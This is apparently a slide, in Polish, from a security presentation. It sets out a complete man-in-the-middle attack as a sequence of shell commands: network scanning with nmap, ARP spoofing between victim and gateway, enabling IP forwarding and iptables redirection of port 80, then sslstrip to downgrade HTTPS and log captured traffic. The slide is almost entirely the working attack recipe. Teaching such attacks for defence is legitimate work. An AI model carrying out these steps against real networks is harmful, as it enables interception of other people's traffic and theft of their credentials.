

Przebieg ataku
// poszukiwanie celu
# nmap –Pn <adres_sieci>/<maska_dziesiętnie>  // można też wypróbować nmap -A
// przekierowanie ruchu przez swoją maszynę
# arpspoof –i <interfejs> <ip_ofiary> -t <ip_bramy_domyślnej>
# arpspoof –i <interfejs> <ip_bramy_domyślnej> -t <ip_ofiary>
// ustawienia przekierowania portów i ruchu przez maszynę
# echo 1 > /proc/sys/net/ipv4/ip_forward
# iptables -P FORWARD ACCEPT
# iptables --table nat -A POSTROUTING -o eth0 -j MASQUERADE
# iptables -t nat -A PREROUTING -p tcp --destination-port 80 -j REDIRECT --to-port 10000
// atak
 sslstrip –f –p –k
// odczytyanie wyników (jeśli jakieś są, plik musi istnieć przed komendą sslstrip)
# cat sslstrip.log